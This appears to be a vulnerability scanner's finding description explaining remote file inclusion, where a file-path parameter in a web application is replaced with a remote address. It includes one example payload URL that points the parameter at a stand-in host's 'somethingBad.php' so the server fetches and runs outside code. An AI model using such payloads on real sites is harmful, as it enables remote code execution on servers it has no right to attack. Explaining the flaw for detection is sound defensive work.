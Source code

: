 Web applications occasionally use parameter values to store the
location of a file which will later be required by the server.

An
example of this is often seen in error pages, where the actual file
path for the error page is stored in a parameter value -- for example
`example.com/error.php?page=404.php`.

A remote file inclusion occurs
when the parameter value (ie. path to the file being called by the server)
can be substituted with the address of remote resource -- for example:
`yoursite.com/error.asp?page=http://anothersite.com/somethingBad.php`
In some cases, the server will process the fetched resource;
therefore, if the resource contains server-side code matching that of
the framework being used (ASP, PHP, JSP, etc.), it is probable that
the resource will be executed as if it were part of the web
application.

The tool discovered that it was possible to substitute a
parameter value with an external resource and have the server fetch it
and include its contents in the response.